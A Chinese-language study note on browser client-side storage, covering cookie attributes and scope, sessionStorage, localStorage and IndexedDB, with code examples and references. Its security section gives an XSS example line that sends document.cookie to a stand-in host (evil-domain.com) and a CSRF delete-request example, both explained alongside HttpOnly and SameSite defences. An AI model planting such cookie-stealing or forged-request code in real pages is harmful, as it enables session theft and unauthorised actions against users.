






---
{
  "title": "客户端缓存",
}
---

## Cookie

- 由HTTP协议生成，主要供HTTP协议使用。
- 是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。

> 当服务器收到 HTTP 请求时，服务器可以在**响应头**里面添加一个 Set-Cookie 选项。浏览器收到响应后通常会保存下 Cookie，之后对该服务器每一次请求中都通过  **Cookie 请求头部**将 Cookie 信息发送给服务器。另外，Cookie 的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。


Cookie 主要用来分辨两个请求是否来自同一个浏览器，以及用来保存一些状态信息。Cookie 主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

当服务器准备开始管理客户端的状态时，会事先告知各种信息。

| NAME=VALUE       | 赋予 Cookie 的名称和其值（必需项）                           |
| ---------------- | ------------------------------------------------------------ |
| **expires=DATE** | Cookie 的有效期（若不明确指定则默认为浏览器关闭前为止）      |
| **path=PATH**    | 将服务器上的文件目录作为Cookie的适用对象（若不指定则默认为文档所在的文件目录） |
| **domain=域名**  | 作为 Cookie 适用对象的域名 （若不指定则默认为创建 Cookie 的服务器的域名） |
| **Secure**       | 仅在 HTTPS 安全通信时才会发送 Cookie                         |
| **HttpOnly**     | 加以限制， 使 Cookie 不能被 JavaScript 脚本访问              |


> 其实cookie也没什么好说的，`document.cookie`一把梭就完事了。  ——MDN



<center><iframe
  src="https://carbon.now.sh/embed?bg=rgba%28255%2C255%2C255%2C1%29&t=vscode&wt=none&l=javascript&ds=false&dsyoff=7px&dsblur=68px&wc=true&wa=true&pv=3px&ph=2px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=2x&wm=false&code=document.cookie%2520%253D%2520%2522example%253Dthis%253B%2520domain%253Dbaidu.com%253Bpath%253D%252F%253Bexpires%253DMon%252C%252011%2520Nov%25202026%252007%253A34%253A46%2520GMT%253B%2520%2522"
  style="width: 860px; height: 102px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">
</iframe></center>




**要点：**

1. Cookie中的同源只关注**域名**，忽略协议和端口。所以
   `https://localhost:8080/`和`http://localhost:8081/`的Cookie是共享的。
   
1. 如果不设置cookie过期时间expires或者max-age，浏览器程序结束后删除cookie。

   <iframe
     src="https://carbon.now.sh/embed?bg=rgba%28255%2C255%2C255%2C1%29&t=vscode&wt=none&l=javascript&ds=false&dsyoff=7px&dsblur=68px&wc=true&wa=true&pv=3px&ph=2px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=2x&wm=false&code=%252F%252F%25E8%25AE%25BE%25E7%25BD%25AE%25E8%25BF%2587%25E6%259C%259F%25E6%2597%25B6%25E9%2597%25B4%25E4%25B8%25BA%25E6%259C%25AC%25E5%259C%25B0%25E6%2597%25B6%25E9%2597%25B45%25E5%2588%2586%25E9%2592%259F%25E5%2590%258E%250Avar%2520d%2520%253D%2520new%2520Date%28%29%253B%250Ad.setTime%28d.getTime%28%29%2520%252B%25205*60*1000%252B8*60*60*1000%29%253B%2520%250Adocument.cookie%2520%253D%2520%27foo%253Dbar%253Bpath%253D%252F%253Bexpires%253D%27%252Bd.toGMTString%28%29%252B%27%253B%27%253B%250A%252F%252F%27foo%253Dbar%253Bpath%253D%252F%253Bexpires%253DMon%252C%252010%2520Jan%25202022%252013%253A13%253A04%2520GMT%253B%27"
     style="width: 582px; height: 173px; border:0; transform: scale(1); overflow:hidden;"
     sandbox="allow-scripts allow-same-origin">
   </iframe>

2. 通过`Domain`和`Path`标识Cookie的作用域：即允许Cookie应该发送到哪些URL

   - Domain。两个网页一级域名相同，只是二级域名不同，浏览器允许通过设置`document.domain`共享 Cookie。

     例如：A网页是`http://w1.example.com/a.html`，B网页是`http://w2.example.com/b.html`，通过设置`document.domain='example.com'`两个网页可以共享Cookie。

     <center></center>

     <center><a href='https://www.foxrenderfarm.com'>https://www.foxrenderfarm.com</a></center>

     <center><a href='https://task.foxrenderfarm.com'>https://task.foxrenderfarm.com</a></center>

     

   - Path。Path标识了主机下哪些路径可以接受Cookie。

     例如：设置`Path=/docs`，则以下地址都会匹配：

     ```tex
     /docs
     /docs/Web/
     /docs/Web/HTTP
     ```

     反过来，则不行

     <iframe   src="https://carbon.now.sh/embed?bg=rgba%28255%2C255%2C255%2C1%29&t=vscode&wt=none&l=javascript&ds=false&dsyoff=7px&dsblur=68px&wc=true&wa=true&pv=3px&ph=2px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=2x&wm=false&code=%252F%252Fhttps%253A%252F%252Ffirst-1307794409.cos.ap-nanjing.myqcloud.com%252F%250Adocument.cookie%253D%2522location%253Droot%253Bpath%253D%252F%253B%2522%253B%250A%252F%252F%27location%253Droot%27%250A%250A%252F%252Fhttps%253A%252F%252Ffirst-1307794409.cos.ap-nanjing.myqcloud.com%252FMyNote%250Adocument.cookie%253D%2522location%253DMyNote%253Bpath%253D%252FMyNote%253B%2522%253B%250A%252F%252F%27location%253DMyNote%253B%2520location%253Droot%27%250A%250A%252F%252Fhttps%253A%252F%252Ffirst-1307794409.cos.ap-nanjing.myqcloud.com%252FMyNote%252Fcookie_01.png%250Adocument.cookie%253D%2522location%253Dcookie_01.png%253Bpath%253D%252FMyNote%252Fcookie_01.png%253B%2522%253B%250A%252F%252F%27location%253Dcookie_01.png%253B%2520location%253DMyNote%253B%2520location%253Droot%27"   style="width: 100%; height: 285px; border:0; transform: scale(1); overflow:hidden;"   sandbox="allow-scripts allow-same-origin"> </iframe>
     
     
   
3. 存在安全问题

   - 跨站脚本攻击（XSS）

     ```javascript
     (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
     ```

     使用HttpOnly属性可防止通过 JavaScript 访问 cookie 值。

     > HttpOnly是包含在Set-Cookie HTTP响应头文件中的附加标志。生成cookie时使用HttpOnly标志有助于降低客户端脚本访问受保护cookie的风险。
   
   
      - 跨站请求伪造（CSRF）
   
        ```javascript
        (new Image()).src="https://www.example.com/index.php?action=delete&id=123";
        ```
        
        用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短，并且 `SameSite` 属性设置为`Strict` 或 `Lax`，阻止第三方cookie。
        
        > CSRF（Cross-site request forgery）跨站请求伪造：恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求。
   

## Web Storage

- 使用**键值对**存储数据，存在数据类型限制（字符串、数字等）


- 特定于页面的协议，每个域都有一个单独的数据存储区。

**用法：**

```javascript
Storage.setItem(key,value) //保存数据，value会转为字符串
Storage.getItem(key)     //获取数据
Storage.remove(key)      //按键删除数据
Storage.key(index)       //获取Storage里序号为index的数据的键
Storage.clear()          //删除所有
```


### sessionStorage

1. 页面会话在浏览器打开期间一直保持，并且重新加载（浏览器刷新按钮触发，包括`window.location.reload()`）仍会保持原来的sessionStorage。

2. 一个浏览器Tag对应一个sessionStorage，同一个url在不同Tag的sessionStorage不共享，关闭Tag则清除对应的sessionStorage。**在浏览器程序没有结束的前提下**，可通过打开浏览器历史记录恢复相应页面的sessionStorage。

3. 在当前页面通过`<a target='_blank'/>`**打开**新的页面，则新的页面中的sessionStorage和原页面**没有关系**；

   通过以下方式**打开**新页面，则新页面**复制**旧页面的sessionStorage。

   ```javascript
   <a href='' target='_blank' rel="opener"/> //rel规定当前文档与被链接文档之间的关系
   window.open()
   ```
   
   在当前通过`<a href=''/>`页面**跳转**新的页面，则新旧页面**共享**sessionStorage（页面间跳转通信）。
   
4. > 在新标签或窗口打开一个页面时会复制顶级浏览会话的上下文作为新会话的上下文。
   >
   
   顶级浏览会话是指如果页面内部嵌套了`iframe`，当`iframe`加载的时候，是可以使用当前页面的sessionStorage的。
   
5. [try it!](https://first-1307794409.cos.ap-nanjing.myqcloud.com/MyNote/%E5%AE%A2%E6%88%B7%E7%AB%AF%E7%BC%93%E5%AD%98/index.html)

### localStorage

- 存在于单浏览器，以文件的方式存储在本地。
- **浏览器程序结束后**再打开网页，localStorage仍然存在。
- 相较于sessionStorage，localStorage在相同url不同Tag间共享。

## IndexedDB

背景：Web Storage不提供搜索功能，不能建立自定义的索引，不适合存储大量数据。

> IndexedDB 是一种底层 API，用于在客户端存储大量的结构化数据（也包括文件/二进制大型对象（blobs））。

> IndexedDB 是一个**事务型**数据库系统，类似于基于 SQL 的 **RDBMS**。 然而，不像 RDBMS 使用固定列表，IndexedDB 是一个基于 JavaScript 的面向对象数据库。

就数据库类型而言，IndexedDB更接近非关系型数据库（NoSQL)

**特点：**

1. 键值对存储。所有类型的数据都可以直接存储，每个数据记录都有对应的独一无二的主键。
2. 异步。
3. 事务。支持事务（transaction），意味着一系列操作有一步失败，就回滚到所有事务发生之前，避免了只改写了一部分数据的情况。
4. 同源限制。网页只能访问同域名下的数据库。

**接口：**

`IndexedDB`把关于数据库的不同实体抽象成一个个`对象接口`。

```javascript
- 数据库:  IDBDatabase
- 对象仓库：IDBObjectStore
- 索引:    IDBIndex
- 事务:    IDBTransaction
- 操作请求：IDBRequest
- 指针:    IDBCursor
- 主键集合：IDBKeyRange
```


**用法：**

<iframe   src="https://carbon.now.sh/embed?bg=rgba%28255%2C255%2C255%2C1%29&t=vscode&wt=none&l=javascript&ds=false&dsyoff=7px&dsblur=68px&wc=true&wa=true&pv=3px&ph=2px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=2x&wm=false&code=let%2520users%2520%253D%2520%255B%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520firstname%253A%2520%2522Helmy%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520lastname%253A%2520%2522Lobo%2522%252C%250A%250A%2520%2520%2520%2520%257D%252C%250A%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520firstname%253A%2520%2522James%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520lastname%253A%2520%2522Dubo%2522%252C%250A%2520%2520%2520%2520%257D%252C%250A%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520firstname%253A%2520%2522Devin%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520lastname%253A%2520%2522Bobo%2522%252C%250A%2520%2520%2520%2520%257D%250A%255D%253B%250A%250A%250Alet%250A%2520%2520%2520%2520db%252C%250A%2520%2520%2520%2520db_request%252C%250A%2520%2520%2520%2520db_name%253D%27Admin%27%252C%250A%2520%2520%2520%2520db_version%2520%253D%25201%252C%250A%2520%2520%2520%2520db_transaction%252C%250A%2520%2520%2520%2520db_objectStore%253B%250A%250A%252F%252F%25E6%2589%2593%25E5%25BC%2580%25E6%2595%25B0%25E6%258D%25AE%25E5%25BA%2593%25EF%25BC%258C%25E4%25B8%258D%25E5%25AD%2598%25E5%259C%25A8%25E5%2588%2599%25E5%2588%259B%25E5%25BB%25BA%250Adb_reqest%2520%253D%2520indexedDB.open%28db_name%252C%2520db_version%29%253B%250Adb_reqest.onerror%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520alert%28%27Failed%2520to%2520open%2520IndexedDB%27%29%253B%250A%257D%250Adb_reqest.onsuccess%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520console.log%28%27onsuccess%27%29%253B%250A%2520%2520%2520%2520db%2520%253D%2520event.target.result%253B%250A%257D%250A%252F%252F%25E7%259B%2591%25E5%2590%25AC%25E6%2595%25B0%25E6%258D%25AE%25E5%25BA%2593%25E6%259B%25B4%25E6%2596%25B0%250Adb_reqest.onupgradeneeded%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520console.log%28%27onupgradeneeded%27%29%253B%250A%2520%2520%2520%2520db%2520%253D%2520event.target.result%253B%250A%2520%2520%2520%2520if%2520%28%21db.objectStoreNames.contains%28%27users-table%27%29%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%252F%252FObjectStorex%25E5%25AD%2598%25E5%2582%25A8%25E7%25A9%25BA%25E9%2597%25B4%28%25E5%25AD%2598%25E5%2582%25A8%25E7%25A9%25BA%25E9%2597%25B4%25E5%2590%258D%25E7%25A7%25B0%25EF%25BC%258C%25E5%25AD%2598%25E5%2582%25A8%25E5%25B1%259E%25E6%2580%25A7%25E9%2585%258D%25E7%25BD%25AE%29%25EF%25BC%258C%25E7%259B%25B8%25E5%25BD%2593%25E4%25BA%258E%25E6%2595%25B0%25E6%258D%25AE%25E8%25A1%25A8%252C%25E5%258F%25AA%25E8%2583%25BD%25E5%259C%25A8onupgradeneeded%25E5%2588%259B%25E5%25BB%25BA%250A%2520%2520%2520%2520%2520%2520%2520%2520db_objectStore%2520%253D%2520db.createObjectStore%28%27users-table%27%252C%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520keyPath%253A%2520%2522id%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520autoIncrement%253A%2520true%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%252F%252FIndext%28%25E7%25B4%25A2%25E5%25BC%2595%25EF%25BC%258C%25E6%258C%2587%25E5%25AE%259A%25E6%259E%2584%25E5%25BB%25BA%25E7%25B4%25A2%25E5%25BC%2595%25E7%259A%2584%25E5%25AD%2598%25E5%2582%25A8%25E6%2595%25B0%25E6%258D%25AE%25E7%259A%2584%25E5%25B1%259E%25E6%2580%25A7%25EF%25BC%258C%25E9%2585%258D%25E7%25BD%25AE%25E5%25AF%25B9%25E8%25B1%25A1%29%252C%25E7%259B%25B8%25E5%25BD%2593%25E4%25BA%258E%25E6%2595%25B0%25E6%258D%25AE%25E8%25A1%25A8%25E4%25B8%25AD%25E7%259A%2584%25E5%2588%2597%250A%2520%2520%2520%2520%2520%2520%2520%2520db_objectStore.createIndex%28%27firstname%27%252C%2520%27firstname%27%252C%2520%257B%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520unique%253A%2520false%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%29%250A%2520%2520%2520%2520%2520%2520%2520%2520db_objectStore.createIndex%28%27lastname%27%252C%2520%27lastname%27%252C%2520%257B%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520unique%253A%2520true%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%29%250A%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27ObjectStore%2520users-table%2520created%27%29%253B%250A%2520%2520%2520%2520%257D%250A%257D%250A%250Aconsole.log%28%27start%27%29%253B"   style="width: 100%; height: 1104px; border:0; transform: scale(1); overflow:hidden;"   sandbox="allow-scripts allow-same-origin"> </iframe>






<iframe   src="https://carbon.now.sh/embed?bg=rgba%28255%2C255%2C255%2C1%29&t=vscode&wt=none&l=javascript&ds=false&dsyoff=7px&dsblur=68px&wc=true&wa=true&pv=3px&ph=2px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=2x&wm=false&code=db_reqest.onsuccess%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520console.log%28%27onsuccess%27%29%253B%250A%2520%2520%2520%2520db%2520%253D%2520event.target.result%253B%250A%2520%2520%2520%2520db_transaction%2520%253D%2520db.transaction%28%255B%27users-table%27%255D%252C%2520%27readwrite%27%29%253B%250A%2520%2520%2520%2520db_objectStore%2520%253D%2520db_transaction.objectStore%28%27users-table%27%29%253B%250A%2520%2520%2520%2520%252F%252F%25E5%25A2%259E%25E6%25B7%25BB%25E6%2595%25B0%25E6%258D%25AE%250A%2520%2520%2520%2520users.forEach%28%28user%29%2520%253D%253E%2520db_objectStore.add%28user%29%29%253B%250A%2520%2520%2520%2520%252F%252F%25E9%2580%259A%25E8%25BF%2587%25E4%25B8%25BB%25E9%2594%25AE%25E6%259F%25A5%25E8%25AF%25A2%25E6%2595%25B0%25E6%258D%25AE%250A%2520%2520%2520%2520const%2520getByKey%2520%253D%2520db_objectStore.get%281%29%253B%250A%2520%2520%2520%2520getByKey.onsuccess%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520if%2520%28getByKey.result%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27get%2520data%2520with%2520Key%2520by%2520get%28%29%27%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27firstname%253A%27%2520%252B%2520getByKey.result.firstname%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27lastname%253A%27%2520%252B%2520getByKey.result.lastname%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%2520else%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27get%2520nothting%2520with%2520key%2520by%2520get%28%29%27%29%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%252F%252F%25E9%2580%259A%25E8%25BF%2587%25E7%25B4%25A2%25E5%25BC%2595%25E9%2581%258D%25E5%258E%2586%25E6%2595%25B0%25E6%258D%25AE%25E6%259F%25A5%25E6%2589%25BE%25E5%25AF%25B9%25E5%25BA%2594%25E4%25B8%25BB%25E9%2594%25AE%250A%2520%2520%2520%2520const%2520index%2520%253D%2520db_objectStore.index%28%27lastname%27%29%253B%250A%2520%2520%2520%2520const%2520getByIndex%2520%253D%2520index.get%28%27Lobo%27%29%253B%250A%2520%2520%2520%2520getByIndex.onsuccess%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520if%2520%28event.target.result%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27get%2520data%2520by%2520Index%27%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27Lobo%255C%27s%2520id%2520is%2520%27%2520%252B%2520event.target.result.id%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%252F%252F%25E9%2580%259A%25E8%25BF%2587%25E6%25B8%25B8%25E6%25A0%2587%25E9%2581%258D%25E5%258E%2586%25E6%2595%25B0%25E6%258D%25AE%250A%2520%2520%2520%2520db_objectStore.openCursor%28%29.onsuccess%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520let%2520cursor%2520%253D%2520event.target.result%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520if%2520%28cursor%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27traverse%2520data%2520with%2520cursor.%27%29%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27id%253A%27%2520%252B%2520cursor.key%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27firstname%253A%27%2520%252B%2520cursor.value.firstname%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27lastname%253A%27%2520%252B%2520cursor.value.lastname%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520cursor.continue%28%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%2520else%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27that%255C%27s%2520all%27%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%252F%252F%25E9%2580%259A%25E8%25BF%2587IDBObject.put%28%29%25E6%2596%25B9%25E6%25B3%2595%25E5%2592%258C%25E4%25B8%25BB%25E9%2594%25AE%25E6%259B%25B4%25E6%2596%25B0%25E6%2595%25B0%25E6%258D%25AE%250A%2520%2520%2520%2520const%2520updateByPut%2520%253D%2520db_objectStore.put%28%257B%2520id%253A1%252Cfirstname%253A%2520%27hello%27%252C%2520lastname%253A%2520%27kitkit%27%2520%257D%29%253B%250A%2520%2520%2520%2520updateByPut.onsuccess%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27Succeed%2520to%2520update%2520data%2520with%2520key%2520by%2520put%28%29%27%29%253B%250A%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%252F%252F%25E9%2580%259A%25E8%25BF%2587IDBObjectStore.delete%28%29%25E5%2592%258C%25E4%25B8%25BB%25E9%2594%25AE%25E5%2588%25A0%25E9%2599%25A4%25E6%2595%25B0%25E6%258D%25AE%250A%2520%2520%2520%2520const%2520deleteReq%2520%253D%2520db_objectStore.delete%281%29%253B%250A%2520%2520%2520%2520deleteReq.onsuccess%2520%253D%2520%28event%29%2520%253D%253E%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520console.log%28%27Succeed%2520to%2520delete%2520data%2520with%2520key%2520by%2520delete%28%29%27%29%250A%2520%2520%2520%2520%257D%250A%257D"   style="width: 100%; height: 1029px; border:0; transform: scale(1); overflow:hidden;"   sandbox="allow-scripts allow-same-origin"> </iframe>



<iframe src="https://codesandbox.io/embed/youthful-hoover-yojhm?fontsize=14&hidenavigation=1&theme=dark"
     style="width:100%; height:500px; border:0; border-radius: 4px; overflow:hidden;"
     title="youthful-hoover-yojhm"
     allow="accelerometer; ambient-light-sensor; camera; encrypted-media; geolocation; gyroscope; hid; microphone; midi; payment; usb; vr; xr-spatial-tracking"
     sandbox="allow-forms allow-modals allow-popups allow-presentation allow-same-origin allow-scripts"
   ></iframe>


## 参考

> [MDN客户端存储](https://developer.mozilla.org/zh-CN/docs/Learn/JavaScript/Client-side_web_APIs/Client-side_storage)
> [Microsoft Edge 应用程序](https://docs.microsoft.com/zh-cn/microsoft-edge/devtools-guide-chromium/storage/indexeddb)
>
> [HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
>
> [浏览器同源政策及其规避方法](https://www.ruanyifeng.com/blog/2016/04/same-origin-policy.html)
>
> [前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)
>
> [前端安全系列（二）：如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)
>
> [Cookie 的 SameSite 属性](https://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html)
>
> [Cookie](https://javascript.ruanyifeng.com/bom/cookie.html)
>
> [第一方Cookie和第三方Cookie](https://www.jianshu.com/p/001bbd5a414a)
>
> [IndexedDB使用与出坑指南](https://segmentfault.com/a/1190000006924681)
>
> [浏览器数据库 IndexedDB 入门教程](http://www.ruanyifeng.com/blog/2018/07/indexeddb.html)
>
> [HTML a 标签的 target 属性](https://www.w3school.com.cn/tags/att_a_target.asp)
>
> [sqlite配置下载安装及使用教程](https://blog.csdn.net/qq_16093323/article/details/88226397?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522164172847016780357246297%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=164172847016780357246297&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-88226397.pc_search_result_cache&utm_term=sqlite&spm=1018.2226.3001.4187)


## TODO

- CORS预校验
- 
